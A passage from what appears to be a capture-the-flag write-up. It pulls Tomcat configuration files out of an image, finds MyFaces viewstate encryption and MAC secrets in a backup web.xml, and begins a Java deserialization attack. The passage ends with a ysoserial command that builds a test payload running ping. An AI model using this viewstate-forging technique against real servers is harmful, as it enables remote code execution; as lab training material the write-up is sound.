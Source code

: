 ```bash
8568380       0x82BE3C        Zip archive data, at least v2.0 to extract, compressed size: 7353, uncompressed size: 7586, name: Mask/robin.jpeg
8575806       0x82DB3E        Zip archive data, at least v2.0 to extract, compressed size: 105045, uncompressed size: 105374, name: Mask/me.jpg
8680920       0x8475D8        Zip archive data, at least v2.0 to extract, compressed size: 687109, uncompressed size: 687160, name: Mask/mycar.jpg
9466405       0x907225        End of Zip archive
---snip---
```
Some pictures of the car and in the /tomcat-stuff folder some config files.
```bash
$ ls -lRah
.:
total 392K
drwx------ 3 root root 4.0K Aug  1 17:17 .
drwxr-xr-x 3 root root  12K Aug  1 17:17 ..
-rw-r--r-- 1 root root 103K Dec 25  2018 me.jpg
-rw-r--r-- 1 root root 257K Dec 25  2018 mycar.jpg
-rw-r--r-- 1 root root 7.5K Dec 25  2018 robin.jpeg
drwx------ 2 root root 4.0K Dec 25  2018 tomcat-stuff

./tomcat-stuff:
total 212K
drwx------ 2 root root 4.0K Dec 25  2018 .
drwx------ 3 root root 4.0K Aug  1 17:17 ..
-rw-r--r-- 1 root root 1.4K Dec 25  2018 context.xml
-rw-r--r-- 1 root root  832 Dec 25  2018 faces-config.xml
-rw-r--r-- 1 root root 1.2K Dec 25  2018 jaspic-providers.xml
-rw-r--r-- 1 root root   39 Dec 25  2018 MANIFEST.MF
-rw-r--r-- 1 root root 7.5K Dec 25  2018 server.xml
-rw-r--r-- 1 root root 2.2K Dec 25  2018 tomcat-users.xml
-rw-r--r-- 1 root root 170K Dec 25  2018 web.xml
-rw-r--r-- 1 root root 3.5K Dec 25  2018 web.xml.bak
```
Nothing very interesting except in web.xml.bak we see its using encrypted viewstates...are these the secrets we need?
```xml 
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
<context-param>
<description>
```
After reading some more about java derialization we go back to the Mask blog here. We can use the ysoserial tool to create a valid viewstate to replace in the request, then encrypt it with DES and sign it with our Hmac-SHA1 secret. We can see both secret values are the same in the web.xml.bak file. Checking the MyFaces documentation, http://myfaces.apache.org/shared12/myfaces-shared-core/apidocs/org/apache/myfaces/shared/util/StateUtils.html, the DES mode by default is ECB and PKCS5 is the default padding which we will need. Using the ysoserial tool, https://github.com/frohoff/ysoserial, we can create simple serialized objects to test with.
```bash 
$ java -jar /opt/ysoserial/ysoserial-master-55f1e7c35c-1.jar CommonsCollections5 'cmd /c ping 10.10.14.20' > ping.bin
$ file ping.bin
ping.bin: Java serialization data, version 5
```
